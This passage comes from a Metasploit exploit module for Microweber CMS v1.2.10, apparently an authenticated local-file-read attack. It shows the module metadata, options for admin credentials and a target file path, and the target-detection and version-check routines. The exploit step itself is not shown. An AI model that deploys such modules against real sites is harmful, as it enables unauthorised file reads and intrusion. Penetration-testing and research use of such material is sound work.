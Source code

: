           'SideEffects' => [ ARTIFACTS_ON_DISK, IOC_IN_LOGS ],
          'Reliability' => [ REPEATABLE_SESSION ],
          'Stability' => [ OS_RESOURCE_LOSS ]
        },
        'Targets' => [
          [ 'Microweber v1.2.10', {} ]
        ],
        'Privileged' => true,
        'DisclosureDate' => '2022-01-30'
      )
    )

    register_options(
      [
        OptString.new('TARGETURI', [true, 'The base path for Microweber', '/']),
        OptString.new('USERNAME', [true, 'The admin\'s username for Microweber']),
        OptString.new('PASSWORD', [true, 'The admin\'s password for Microweber']),
        OptString.new('LOCAL_FILE_PATH', [true, 'The path of the local file.']),
        OptBool.new('DEFANGED_MODE', [true, 'Run in defanged mode', true])
      ]
    )
  end

  def check
    res = send_request_cgi({
      'method' => 'GET',
      'uri' => normalize_uri(target_uri.path, 'admin', 'login')
    })

    if res.nil?
      fail_with(Failure::Unreachable, 'Microweber CMS cannot be reached.')
    end

    print_status 'Checking if it\'s Microweber CMS.'

    if res.code == 200 && !res.body.include?('Microweber')
      print_error 'Microweber CMS has not been detected.'
      Exploit::CheckCode::Safe
    end

    if res.code != 200
      fail_with(Failure::Unknown, res.body)
    end

    print_good 'Microweber CMS has been detected.'

    return check_version(res.body)
  end

  def check_version(res_body)
    print_status 'Checking Microweber\'s version.'

    begin
      major, minor, build = res_body[/Version:\s+(\d+\.\d+\.\d+)/].gsub(/Version:\s+/, '').split('.')
      version = Rex::Version.new("#{major}.#{minor}.#{build}")
    rescue NoMethodError, TypeError
      return Exploit::CheckCode::Safe
    end

